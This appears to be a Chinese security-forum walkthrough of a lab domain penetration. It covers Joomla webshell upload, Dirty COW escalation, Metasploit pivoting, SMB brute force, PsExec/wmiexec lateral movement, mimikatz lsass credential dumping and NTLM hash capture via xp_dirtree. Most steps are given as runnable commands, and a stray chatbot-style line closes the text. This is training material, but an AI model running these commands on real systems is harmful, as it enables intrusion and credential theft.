# 记一次域渗透从打点到内网-先知社区

> **来源**: https://xz.aliyun.com/news/18286  
> **文章ID**: 18286

---

## 一、环境信息

本次靶场涉及多台主机，其 IP 信息如下：

* kali 攻击机：172.20.10.3
* web 服务器：外网 IP 为 172.20.10.3，内网 IP 为 192.168.93.100
* web - Ubantu：192.168.93.12
* win7：192.168.93.30
* win2008：192.168.93.20
* win2012：192.168.93.10

## 二、外网阶段渗透

### 1. 信息收集

首先明确 web - centos 的出网 IP 为 172.20.10.3，随后使用 fscan 工具对该 IP 进行信息收集，成功获取到 mysql 的登录信息：用户名 root，密码 123，同时确定 web 目录地址为http://172.20.10.3 。





### 2. Joomla 框架漏洞利用

访问网站，经识别确定其使用 Joomla 框架。利用https://github.com/OWASP/joomscan工具扫描，获取到 Joomla 的版本号、路径信息及配置文件泄露信息，得到一系列 Joomla 相关路径，其中关键的后台链接如下：

* http://172.20.10.3/joomla/administrator/
* http://172.20.10.3/administrator/



由于通过数据库密码无法直接确定 Joomla 后台密码加密类型，结合已获取的数据库账户密码，重置 Joomla 后台密码为 administrator:112233 。



```
http://172.20.10.3/joomla/administrator/                                                                                                                              
http://172.20.10.3/administrator/                                                                                                                                     
http://172.20.10.3/bin/                                                                                                                                               
http://172.20.10.3/cache/                                                                                                                                             
http://172.20.10.3/cli/                                                                                                                                               
http://172.20.10.3/components/                                                                                                                                        
http://172.20.10.3/includes/                                                                                                                                          
http://172.20.10.3/installation/                                                                                                                                      
http://172.20.10.3/language/                                                                                                                                          
http://172.20.10.3/layouts/                                                                                                                                           
http://172.20.10.3/libraries/                                                                                                                                         
http://172.20.10.3/logs/                                                                                                                                              
http://172.20.10.3/modules/                                                                                                                                           
http://172.20.10.3/plugins/                                                                                                                                           
http://172.20.10.3/tmp/
```

### 3. Joomla 后台 getshell

Joomla 后台 getshell 可通过修改模板实现，因已获取数据库 root 权限，成功添加用户后登录后台。找到 templates 目录下的 index.php 文件，经操作在该文件中写入 webshell 代码，保存后通过http://172.20.10.3//templates/beez3/shell.php地址连接 shell 。但连接后发现因 disable\_fuctions 限制无法执行命令，后续需进行绕过操作。







### 4. 提权进入内网

连接 shell 后发现用户权限非 root，在数据库中获取到账户 wwwuser/wwwuser\_123Aqx ，使用命令 ssh -oHostKeyAlgorithms=+ssh-rsa wwwuser@172.20.10.3 尝试连接，成功连接后查看内核版本，确认符合脏牛提权条件，提权成功后准备配合 msf 上线。









## 三、内网阶段渗透

### 1. 内网信息收集与上线









尝试使用 crossc2 项目上线 cs，后因 cs 插件对 linux 渗透测试效果不佳，切换至 msf。在 msf 中执行以下操作：

```
msfconsole
msf6 > use exploit/multi/handler
msf6 > set payload linux/x64/meterpreter/reverse_tcp
msf6 > set LHOST <攻击者IP>
msf6 > set LPORT <监听端口>
msf6 > run
```

成功上线后，查看路由表发现存在 192.168.93.0/24 网段。





### 2. 内网扫描

使用命令 run autoroute -s 192.168.93.0/24 配置路由，将任务置于后台后，执行以下命令进行内网 smb 存活扫描：

```
use auxiliary/scanner/smb/smb_version
set rhosts 192.168.93.0/24
set threads 10
exploit
```

扫描到 192.168.93.10、192.168.93.20、192.168.93.30 三台主机，且发现存在域 TEST。




## 四、横向攻击

### 解法 1：smb 密码爆破与利用

1. **smb 密码爆破**：使用 msf 的 auxiliary/scanner/smb/smb\_login 模块进行 smb 密码爆破，命令如下：

```
use auxiliary/scanner/smb/smb_login
set smbuser administrator
set pass_file /root/tools/dict/vul-pass.txt
set rhosts 192.168.93.20
run
```

成功获取到 192.168.93.20 和 192.168.93.30 两台主机的密码：administrator/123qwe!ASD 。



2. **PsExec smb 利用**：使用 exploit/windows/smb/psexec 模块进行利用，命令如下：

```
use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/bind_tcp
set rhost 192.168.93.20
set smbuser administrator
set smbpass 123qwe!ASD
run
```

成功使 192.168.93.20 主机上线，并将其派生给 cs。

3. **kali 正向代理配置**：使用 kali 自带的 proxychains 工具配置代理，先复制配置文件 cp /etc/proxychains4.conf/etc/proxychains.conf（若已存在则无需复制），然后编辑配置文件 vi /etc/proxychains.conf，在文件末尾添加 socks5 192.168.1.104 50002 aaa Aaa 。



4. **wmiexec smb 利用**：WMI（Windows Management Instrumentation）是 Windows 管理规范，可用于管理本地和远程计算机，攻击者利用 wmi 攻击具有无日志、脚本无需写入磁盘的隐蔽性。先下载 wmiexec 工具，地址为https://github.com/CoreSecurity/impacket/blob/master/examples/wmiexec.py ，执行以下命令进行安装：

```
git clone https://github.com/CoreSecurity/impacket.git
cd impacket/
python3 -m pip install .
```

安装过程中虽出现包冲突但未影响 wmiexec.py 使用，使用命令 proxychains4 python3 wmiexec.py -debug 'administrator:123qwe!ASD@192.168.93.20' 连接目标主机 。



5. **查找域控与获取凭证**：获取主机权限后，可使用以下命令查找域控：

* 查看域控制器机器名：nltest /DCLIST:124-hack
* 查看域控制器的主机名：nslookup -type=SRV \_ldap.\_tcp
* 查看当前时间：net time /domain
* 查看域控制器组：net group "Domain Controllers" /domian
* 查看域控制器机器名：netdom query pdc

获取凭证的方式有多种，可上传 mimikatz 工具或使用微软自带的 procdump 工具，具体操作如下：

* **方式一**：使用 procdump 下载地址https://learn.microsoft.com/en-us/sysinternals/downloads/procdump ，执行 Procdump.exe -accepteula -ma lsass.exe lsass.dmp 将 lsass 进程内存转储为文件，将 lsass.dmp 文件复制到 mimikatz 所在目录，执行 mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit" 获取凭证 。
* **方式二**：通过 smb 共享或 3389 复制 mimikatz 到目标系统，使用命令 smbclient //192.168.93.20/C$ -U administrator 共享文件，或通过查看和开启 3389 远程桌面进行文件复制。在目标系统以管理员权限运行 mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords" "exit" > log.log 获取凭证 。

成功抓到域控制器的密码 zxcASDqw123!! 后，使用 wmiexec 连接域控，命令为 proxychains4 python3 wmiexec.py -debug 'administrator:zxcASDqw123!!@192.168.93.10' 。







### 解法 2：mssql xp\_dirtree NTLM Relay 攻击

通过前期收集的数据库密码进行横向密码喷射，发现 192.168.93.20 主机的 mssql 可使用 testuser/cvcvgjASD!@登录，但因权限问题无法执行 xp\_cmdshell。

使用工具https://github.com/lgandx/Responder/进行 NTLM Relay 攻击，根据 Python 版本选择对应版本（python 2.6.x 使用 2.3.3.0 版本，需修改 settings.py；python 2.7.x 使用 2.3.4.0 版本）。修改原因是 subprocess.check\_output () 函数在 Python 2.6.x 版本中不可用，该函数于 Python 2.7 版本引入。修改代码如下：

```
process = subprocess.Popen(["ifconfig", "-a"], stdout=subprocess.PIPE)
NetworkCard, _ = process.communicate()
process2 = subprocess.Popen(["cat", "/etc/resolv.conf"], stdout=subprocess.PIPE)
DNS,_ = process2.communicate()
process3 = subprocess.Popen(["netstat", "-rn"], stdout=subprocess.PIPE)
RoutingInfo,_ = process3.communicate()
```









使用工具进行攻击的具体操作如下：

1. 使用脚本扫描域内机器的 SMB 签名开放情况，命令为 python RunFinger.py -i 192.168.93.0/24（工具路径为 / Responder-2.3.3.0/tools/RunFinger.py） 。
2. 利用 MultiRelay.py 攻击，尝试获得目标主机的 shell，命令为 python MultiRelay.py -t 192.168.93.30 -u ALL（工具路径为 / Responder-2.3.3.0/tools/MultiRelay.py） 。
3. 利用 Responder.py 攻击，获取目标机器的 NTLM v2 hash 值，命令为 python Responder.py -I eth0（工具路径为 / Responder-2.3.3.0/Responder.py） 。

运行监听后，可使用 msf 触发或手动触发 NTLM，手动触发命令为 EXEC master.sys.xp\_dirtree '\192.168.93.100\simblog.txt',0,1;（IP 为运行监听的主机 IP）；msf 触发使用 auxiliary/admin/mssql/mssql\_ntlm\_stealer 模块，命令如下：

​

```
use auxiliary/admin/mssql/mssql_ntlm_stealer
set rhosts 192.168.93.20
set smbproxy 192.168.93.100
set username testuser
set password cvcvgjASD!@
run
```

在测试过程中仅获取到 NTLM hash 值，未通过 MultiRelay 获取到 shell，推测可能由环境问题导致。







## 五、总结

通过本次靶场渗透测试，学习到诸多实用技术，涵盖指纹识别 cms 到 getshell、主机信息收集、正反向代理、脏牛 / Ubuntu 提权、smb 扫描到域、NTLM Relay 攻击等方面。尤其是 NTLM Relay 攻击，在实践过程中花费大量时间进行研究与尝试。同时，还对 cs 上线 linux、正反向代理上线 Cs/Msf 等技术进行了探索。后续将继续深入学习，提升渗透测试技能，优化操作流程与技术应用。

以上优化后的文档对渗透过程做了更清晰梳理。你可以说说对内容结构、技术细节等方面的看法，或提出其他修改需求。
